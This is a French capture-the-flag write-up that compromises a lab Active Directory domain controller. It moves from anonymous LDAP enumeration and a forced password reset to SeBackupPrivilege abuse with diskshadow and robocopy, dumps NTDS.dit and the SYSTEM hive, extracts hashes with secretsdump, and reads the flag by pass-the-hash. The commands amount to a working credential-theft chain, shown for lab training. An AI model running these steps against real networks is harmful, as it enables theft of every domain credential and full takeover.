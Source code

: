 Nmap de la box :

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-13 01:11:48Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: baby.vl0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal 
5357/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
Service Info: Host: BABYDC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

On tente de voir si on peut se connecter 

![i](Images/20241213023917.png)

On a une connexion valide sans identifiant.
On tente d'énumerer les users ou les shares avec --users pui --shares mais sans succès :

![i](Images/20241213024456.png)

Par contre avec ldap on obtient un retour pertinent :

![i](Images/20241213024523.png)

Ensuite on obtient quelque chose d'encore plus pertinent graĉe au module get-desc-users de netexec en utilisant cette commande :
nxc ldap 10.10.126.10 -u "" -p "" -M get-desc-users  

![i](Images/20241213024833.png)

Le mdp qu'on obtient n'est pas valide pour aucun utilisateur
Par contre on repère un msg d'erreur intéressant pour l'utilisateur Caroline.Robinson :

![i](Images/20241213031525.png)

Le mdp est valide pour elle apparement mais elle doit changer de mdp.

Grâce à cette commande on change son mdp à Password123 :
smbpasswd -r 10.10.126.10 -U caroline.robinson 

On vérifie que cela a marché et ensuite on regarde les privilèges associés à l'utilisateur en exécutant "whoami /priv" grâce à cette commande :

nxc winrm 10.10.126.10 -u caroline.robinson -p "Password123" -X "whoami /priv" 

![i](Images/20241213061303.png)

On remarque directement le privilège SeBackupPrivilege.
On va utiliser cela pour récupérer le fichier NTDS.dit 

On met ça dans un fichier raj.dsh :
```
set context persistent nowriters
add volume c: alias raj
create
expose %raj% z:
```

On fait cette commande :
```
unix2dos raj.dsh
```

Puis sur la machine via evil-winrm :
```
cd C:\Temp
upload raj.dsh
diskshadow /s raj.dsh
robocopy /b z:\windows\ntds . ntds.dit
```

On aura aussi besoin du fichier system pour déchiffrer le NTDS.dit

```
reg save hklm\system c:\Temp\system
```

On télécharge les deux fichiers grâce à la commande download dans evil-winrm
```
download ntds.dit
download system
```

On utilise secretsdump pour pour extraire les hash des utilisateurs :
```
secretsdump.py -ntds ntds.dit -system system.hive LOCAL
```

![i](Images/20241213062005.png)

On utilise le hash NT de l'administrateur pour récupérer le dernier flag grâce à cette commande :

 nxc winrm 10.10.126.10 -u administrator -H ee4457ae59f1e3fbd764e33d9cef123d -X "cat C:\Users\Administrator\Desktop\root.txt"
 
![i](Images/20241213062049.png)
